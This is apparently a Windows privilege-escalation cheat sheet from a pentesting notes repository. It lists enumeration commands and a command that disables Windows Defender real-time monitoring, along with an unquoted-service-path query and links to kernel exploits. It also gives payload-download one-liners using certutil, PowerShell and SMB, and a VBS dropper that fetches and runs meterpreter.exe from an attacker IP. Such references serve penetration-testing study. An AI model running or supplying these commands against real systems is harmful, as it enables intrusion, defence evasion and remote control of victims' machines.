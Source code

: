 # Enum    
    whoami /priv
    ipconfig /all   
    tree /a /f   
    net users   
    net localgroup   
    netstat /anto   
    
## Scripts
https://github.com/absolomb/Pentesting/blob/master/scripts/winenum.bat

## Powershell
    Get-ExecutionPolicy    
    Set-ExecutionPolicy Unrestricted   
    Set-MpPreference -DisableRealtimeMonitoring $true   
____   

# Exploits
## Service Exploits
### Unquoted Service Paths
    wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """   
    
## Kernel exploits   
    systeminfo | findstr /B /C:"OS Name" /C:"OS Version"   
### Tools
https://github.com/bitsadmin/wesng   
https://github.com/rasta-mouse/Watson   
### Precompiled Kernel Exploits
https://github.com/SecWiki/windows-kernel-exploits   

____   


# File Transfer     
    sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
    copy \\10.6.85.85\kali\shell.exe C:\PrivEsc\shell.exe

    certutil.exe -urlcache -split -f "http://$IP/file.bat" file.bat   
  
## Powershell
    powershell -c wget "http://$IP/file.exe" -outfile "file.exe"   
    powershell "(New-Object System.Net.WebClient).DownloadFile('$IP','$PORT')"   
    powershell Invoke-WebRequest -Uri http://$IP:$PORT/PowerUp.ps1 -OutFile C:\Users\out    

## VBS 
    echo Set o=CreateObject^("MSXML2.XMLHTTP"^):Set a=CreateObject^("ADODB.Stream"^):Set f=Createobject^("Scripting.FileSystemObject"^):o.open "GET", "http://<attacker ip>/meterpreter.exe", 0:o.send^(^):If o.Status=200 Then > "C:\temp\download.vbs" &echo a.Open:a.Type=1:a.Write o.ResponseBody:a.Position=0:If f.Fileexists^("C:\temp\meterpreter.exe"^) Then f.DeleteFile "C:\temp\meterpreter.exe" >> "C:\temp\download.vbs" &echo a.SaveToFile "C:\temp\meterpreter.exe" >>"C:\temp\download.vbs" &echo End if >>"C:\temp\download.vbs" &cscript //B "C:\temp\download.vbs" &del /F /Q "C:\temp\download.vbs"

 ____   
  
# Resources
## Cheat Sheets
  https://burmat.gitbook.io/security/hacking/one-liners-and-dirty-scripts
## Learn More

  
